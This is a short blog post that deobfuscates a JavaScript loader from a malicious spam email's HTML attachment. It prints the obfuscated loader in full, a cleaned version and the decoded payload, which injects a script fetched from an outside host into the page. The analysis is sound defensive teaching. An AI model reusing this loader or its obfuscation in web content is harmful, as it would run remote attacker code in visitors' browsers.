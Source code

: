 ```yaml
---
setup: |
  import Layout from '../../layouts/BlogPost.astro'
title: Deobfuscating a simple html malware loader
subtitle: 
publishDate: 2023-03-14
description: 
tags: ['obfuscation', 'web', 'malware']
permalink: https://halb.it/posts/html-loader-deobfuscation/
---
```


I've got my hands on a malicious spam email that contained an html attachment with the following script

```js
function a0uqiiqu(){var tvtetaepmuol=['124DmjXwe','src','https://dos.com','512295URcyIF','750664RVFSzX',
'36WPNViT','34947uflpIw','59941oAwubn','createElement','1934810DDyBir','47565AALipC','1944VdGjMp',
'.gt/udu/udu.js?','script','12gOlcLD','200pNfvmM','3438gqVBAW'];a0uqiiqu=function(){return tvtetaepmuol;};
return a0uqiiqu();}var a0tauiqnasu=a0ouetecdcnseettrulcs;(function(uegtaapfalc,ipartuuqsrnae){
var umuqirae=a0ouetecdcnseettrulcs,eedxpatuti=uegtaapfalc();while(!![]){try{var lucesdeteds=-parseInt(
umuqirae(0xe9))/0x1*(parseInt(umuqirae(0xe8))/0x2)+-parseInt(umuqirae(0xed))/0x3+parseInt(umuqirae(0xea)
)/0x4*(-parseInt(umuqirae(0xe3))/0x5)+parseInt(umuqirae(0xe7))/0x6*(-parseInt(umuqirae(0xf1))/0x7)+-
parseInt(umuqirae(0xee))/0x8*(-parseInt(umuqirae(0xef))/0x9)+parseInt(umuqirae(0xf3))/0xa+parseInt(
umuqirae(0xf0))/0xb*(parseInt(umuqirae(0xe4))/0xc);if(lucesdeteds===ipartuuqsrnae)break;else eedxpatuti[
'push'](eedxpatuti['shift']());}catch(ieitmuosrseubp){eedxpatuti['push'](eedxpatuti['shift']());}}}(
a0uqiiqu,0x3eb7d));var incidunt=document[a0tauiqnasu(0xf2)](a0tauiqnasu(0xe6));function 
a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs){var uegtaapfalc=a0uqiiqu();return a0ouetecdcnseettrulcs=
function(ipartuuqsrnae,eedxpatuti){ipartuuqsrnae=ipartuuqsrnae-0xe3;var lucesdeteds=uegtaapfalc[
ipartuuqsrnae];return lucesdeteds;},a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs);}incidunt[a0tauiqnasu(
0xeb)]=a0tauiqnasu(0xec)+a0tauiqnasu(0xe5)+'83642',document['head']['appendChild'](incidunt);

```

It is a simple loader, that downloads and runs an external script from the internet. The obfuscation is not sophisticated since it's only there to avoid automated analysis.
For a human, this is actually pretty easy to understand despite the scary look

After formatting the code and renaming some variables, we are left with this

```js
function getStrArray() {
  return ["124DmjXwe", "src", "https://dos.com", "512295URcyIF", "750664RVFSzX", "36WPNViT", "34947uflpIw", "59941oAwubn", "createElement", "1934810DDyBir", "47565AALipC", "1944VdGjMp", ".gt/udu/udu.js?", "script", "12gOlcLD", "200pNfvmM", "3438gqVBAW"];
}
function getStrArrayElement(param1, unused_param2) {
    var strArray = getStrArray();
    param1 = param1 - 227;
    return strArray[param1];
}



(function scramble_str_array(getStrArray, hardcodedInteger) {
  var umuqirae = getStrArrayElement, eedxpatuti = getStrArray();
  while (true) {
    try {
      var lucesdeteds = -parseInt(umuqirae(233)) / 1 * (parseInt(umuqirae(232)) / 2) + -parseInt(umuqirae(237)) / 3 + parseInt(umuqirae(234)) / 4 * (-parseInt(umuqirae(227)) / 5) + parseInt(umuqirae(231)) / 6 * (-parseInt(umuqirae(241)) / 7) + -parseInt(umuqirae(238)) / 8 * (-parseInt(umuqirae(239)) / 9) + parseInt(umuqirae(243)) / 10 + parseInt(umuqirae(240)) / 11 * (parseInt(umuqirae(228)) / 12);
      if (lucesdeteds === hardcodedInteger) break; else eedxpatuti.push(eedxpatuti.shift());
    } catch (ieitmuosrseubp) {
      eedxpatuti.push(eedxpatuti.shift());
    }
  }
}(getStrArray, 256893));



var incidunt = document[getStrArrayElement(242)](getStrArrayElement(230));
incidunt[getStrArrayElement(235)] = getStrArrayElement(236) + getStrArrayElement(229) + "83642", document.head.appendChild(incidunt);
```

Lets break it down:

- The first block defines an array of strings

- In the second block a mysterious algorithm inside an infinite loop scrambles the content of the array

- In the final block the actual payload is defined using strings from the scrambled array


The scrambler algorithm looks pretty complicated, fortunately we don't have to understand it. Instead, we are going to use a very old trick and replace the code payload with a string

```js
var deobfuscated_payload_str = `
  var incidunt = document[${getStrArrayElement(242)}](${getStrArrayElement(230)});

  incidunt[${getStrArrayElement(235)}] = ${getStrArrayElement(236)} + ${getStrArrayElement(229)} + "83642",
    document.head.appendChild(incidunt);
`

console.log(deobfuscated_payload_str)

```

Now when we run the script it will very kindly print its payload instead of executing it.

Here it is:

```js
var incidunt = document[createElement](script);

incidunt[src] = https://dos.com + .gt/udu/udu.js? + "83642",
  document.head.appendChild(incidunt);
```

